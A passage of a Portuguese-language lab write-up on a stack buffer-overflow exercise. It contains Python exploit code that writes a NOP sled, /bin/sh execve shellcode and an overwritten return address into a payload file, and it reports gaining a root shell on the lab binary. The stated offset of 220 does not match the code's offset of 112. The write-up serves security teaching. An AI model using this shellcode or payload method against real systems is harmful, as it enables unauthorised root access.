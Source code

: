 ```py
# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcbc4    # &buffer + 120
offset = 112

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Correndo `./exploit.py` seguido de `./stack-L1`, verificamos que ganhamos acesso à *root shell*:

![](img/lab05/root_shell.png)

### Task 4

Aqui, o processo é semelhante. No entanto, não sabemos o tmanaho inicial do *buffer*.

Como nos é informado que o *buffer* pode ter desde 100 a 200 bytes e não podemos usar força bruta, para assegurar que funciona para qualquer tamanho nesse intervalo teremos de colocar o *shellcode* algures depois do tamanho máximo do *buffer*.

Vimos na tarefa anterior que o *return address* se econtrava 12 bytes após o final do *buffer* (100 + 12). Logo, se preenchermos as posições 112 a 212 do *buffer* com o *return address* que pretendemos, qualquer *buffer* com o tamanho contido no intervalo indicado encontrará o *return address* em `ebp`.

Usando o `gdb`, vemos que o endereço do *buffer* é `0xffffcaa0`, logo fora do mesmo será `0xffffcb0c`.

Usando os valores arbitrários de 240 como início do *shellcode* e 220 o *offset* do *return address*, o `exploit.py` terá o seguinte conteúdo:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 240
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcbe8    # &buffer + 220
offset = 112
```
